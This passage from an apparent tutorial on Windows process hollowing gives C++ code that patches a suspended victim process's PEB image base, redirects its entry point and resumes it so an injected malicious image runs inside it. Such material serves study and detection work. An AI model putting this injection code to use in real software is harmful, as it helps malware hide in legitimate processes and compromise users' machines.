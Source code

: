 Since we wrote our malicious image to a new remote address, we must change the PEB's virtual image base to this new address in order to ensure that the process loads the image correctly.


We should use **WriteProcessMemory** to override that field in PEB with *lpRemoteAddress*

``` cpp
DWORD dwRemoteAddr32b = static_cast<DWORD>((ULONGLONG)lpRemoteAddress);
if (!WriteProcessMemory(
    processInfo.hProcess,
    LPVOID(dwPEBAddr + 8),
    &dwRemoteAddr32b,
    sizeof(DWORD),
    &writtenBytes
)) {
    printf("Failed overwriting PEB\n");
    TerminateProcess(processInfo.hProcess, 1);
    return FALSE;
}
```


Next, we need to fix up the context of the victim's thread. The entry point of a process is stored in the **eax** register before the process starts, and this will specify where in memory the process should start execute the image.


Since the *AddressOfEntryPoint* field in the Optional header gives an offset away from the base address of the entry point, the new entry point is simply just this adds the remote address base *lpRemoteAddress*.


``` cpp
context.Eax = static_cast<DWORD>((DWORDLONG)lpRemoteAddress + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
```


### VIII. Apply change to CONTEXT and resume


Since we change the context of the thread a bit, we must reapply this new change by calling [SetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext) to make sure the victim thread will use our new context.


After all, we call [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) to resume the process because we intially create it in the suspended state.


``` cpp
SetThreadContext(processInfo.hThread, &context);
ResumeThread(processInfo.hThread);
```


## 3. Wrapping up
